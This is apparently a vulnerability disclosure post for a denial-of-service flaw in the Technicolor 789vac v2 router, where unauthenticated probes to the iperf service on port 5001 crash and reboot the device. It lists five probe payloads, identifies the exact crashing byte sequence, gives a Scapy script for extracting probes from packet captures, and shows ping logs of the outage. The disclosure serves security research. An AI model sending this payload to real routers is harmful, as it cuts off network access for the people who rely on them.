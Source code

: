 ```yaml
---
layout: post
title: "Router Technicolor 789vac v2" 
date: 2025-01-15
comments: "-"
categories: vulnerability
---
```



## Affected products

We have not yet tested Technicolor models other than those listed. However we suspect it may also work on other models with similar firmware version higher than 2.0.0.

```
    Technicolor 789vac v2
```



## Overview

An issue was discovered in the Technicolor 789vac router running firmware AGTOT 2.2.3. An unauthenticated remote attacker can send a crafted probe or perform a service detection scan, targeting the iperf service on port 5001. This triggers an immediate failure in the router’s network stack, causing disruption of all network connectivity (wired and wireless) and resulting in a full router reboot.

**This PoC can result in a DoS.**

**Given the vendor's policies, we wont't show the Source Code of the binary scripts. However, we'll inspect the web page source. We'll provide the insights before and after the procedure.**

## Strategy

We tested the improper behaviours. 
Simultaneously, we captured the network traffic log all packets exchanged. 
We saved the captured data in PCAPNG format for further analysis. 
Collect all the probes analyzing pcapng (e.g. Scapy)
We filtered precisely the crashing cause by sending one by one and then crafted the exploit.

Here's the list of the probes collected: 
```
Probe #1 BOF: b'\x41' * 10000
Probe #2 Unexpected input from another protocol: b'GET / HTTP/1.1\r\nHost: 192.168.1.1\r\n\r\n'
Probe #3: b'\r\n\r\n'
Probe #4 Enumeration: b'\x69\x70\x65\x72\x66\x20\x2d\x76\x00'
Probe #5 unexpected binary sequence: b'\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01'
```

Probe scraping: 
```
from scapy.all import rdpcap


file_path = 'crash.pcapng'  # Replace with your file path
packets = rdpcap(file_path)

target_ip = "ip_addr" 
target_port = 5001

probes = []
for packet in packets:
    if packet.haslayer("TCP") and packet["TCP"].dport == target_port and packet["IP"].dst == target_ip:
        payload = bytes(packet["TCP"].payload)
        if payload and payload not in probes: 
            probes.append(payload)

for i, probe in enumerate(probes, start=1):
    print(f"Probe #{i}: {probe}")
```

The probe #5 is the chosen one that leads Techicolor 789vac failure. 

```
64 bytes from 192.168.1.1: icmp_seq=183 ttl=64 time=0.401 ms
64 bytes from 192.168.1.1: icmp_seq=184 ttl=64 time=0.348 ms
64 bytes from 192.168.1.1: icmp_seq=185 ttl=64 time=0.384 ms
64 bytes from 192.168.1.1: icmp_seq=186 ttl=64 time=0.373 ms
64 bytes from 192.168.1.1: icmp_seq=187 ttl=64 time=0.335 ms
64 bytes from 192.168.1.1: icmp_seq=188 ttl=64 time=0.349 ms
64 bytes from 192.168.1.1: icmp_seq=189 ttl=64 time=4.66 ms
64 bytes from 192.168.1.1: icmp_seq=190 ttl=64 time=0.518 ms
64 bytes from 192.168.1.1: icmp_seq=191 ttl=64 time=0.385 ms
64 bytes from 192.168.1.1: icmp_seq=192 ttl=64 time=0.418 ms



From 192.168.1.2 icmp_seq=247 Destination Host Unreachable
From 192.168.1.2 icmp_seq=248 Destination Host Unreachable
From 192.168.1.2 icmp_seq=249 Destination Host Unreachable
```
Before the failure (icmp_seq=183 to icmp_seq=188) the latency can be considered low (~0.3-0.4 ms)
During the moment of disruption (icmp_seq=189) there's a sudden spike in response time, which indicates the system is struggling to process the incoming data.
After failure (icmp_seq=190 to icmp_seq=192), the router resumes responding briefly until the total failure (icmp_seq=247 and beyond), becoming unreachable.

Moreover, this will result in an unintended system reboot. The time required for the system to reboot is unpredictable, ranging from a few seconds up to 10 minutes after the actor has exploited the system.
 
